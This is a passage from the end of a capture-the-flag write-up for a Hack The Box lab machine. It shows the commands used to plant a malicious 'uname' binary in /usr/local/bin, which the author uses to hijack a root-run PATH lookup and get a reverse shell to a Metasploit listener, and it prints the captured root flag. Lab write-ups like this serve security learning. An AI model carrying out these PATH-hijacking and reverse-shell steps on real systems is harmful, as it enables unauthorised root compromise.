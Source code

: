 Now that everything is setup, let's try and get our payload to fire. This took me a couple of attempts to get it to work, which I believe is because there is a cleanup script running in the background, presumably so the box doesn't get cluttered with everyone's reverse shell payloads. Note that when you connect to SSH the connection should hang, but shell should connect back to metasploit listener.

```
# Local
scp uname jkr@10.10.10.138:/home/jkr/

# On target
chmod +x uname
cp uname /usr/local/bin/

# Local
ssh jkr@10.10.10.138 

# Metasploit handler
whoami
root
cat /root/root.txt
eeba47f60b48ef92b734f9b6198d7226
```

My takeaways from this box:
- I learned about the LinEnum and Pspy tools
- That you can use the `env` command to clear all environment variables for a command and replace them with your own

I hope you found this enjoyable and educational, happy hacking!
